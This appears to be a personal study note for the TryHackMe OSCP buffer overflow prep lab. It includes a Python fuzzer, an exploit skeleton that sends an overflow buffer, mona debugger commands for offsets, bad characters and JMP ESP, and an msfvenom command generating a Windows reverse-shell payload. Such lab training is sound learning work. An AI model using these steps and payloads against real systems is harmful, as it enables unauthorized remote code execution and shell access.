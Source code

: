 # Buffer Overflow Prep

{% embed url="https://infosecwriteups.com/tryhackme-oscp-buffer-overflow-prep-overflow-2-57c22b51a91f" %}

Install the mona script in the debugger directory and set the working folder

```
!mona config -set workingfolder c:\mona\%p
```

```
#!/usr/bin/env python3

import socket, time, sys

ip = "MACHINE_IP"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

After fuzzing&#x20;

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <fuzz crash+400>
```

then put this as payload in exploit script

```
import socket

ip = "MACHINE_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```



```
!mona findmsp -distance <fuzz crash+400>
```

To confirm, update return var to "BBBB" and your EIP should be showing 42424242 (42 is hex for B)

### Find bad characters

generate charset in immunity to compare to whatever payload we send which will eventually got modified (\x00 is default considered bad)

```
!mona bytearray -b "\x00"

for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

This the new payload, run it and note the ESP (-a, this changes every time so pay attention)

```
!mona compare -f C:\mona\oscp\bytearray.bin -a <address>
```

This will show the potential bad chars, update in your payload as well as the bytearray generated by mona. Do it till you get no modified chars

Now find a jump point to return/direct the instruction yfm

```
!mona jmp -r esp -cpb "\x00"
```

Pick any address and mention that in your retn var (little endian watch out)

Payload generation can we do this wo meta check cus we can only use it once for oscp ye

```
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c
```

Finally we add padding

```
padding = "\x90" * 16 (\x90 is No operation byte, might be encoded so need extra space to unpack)
```
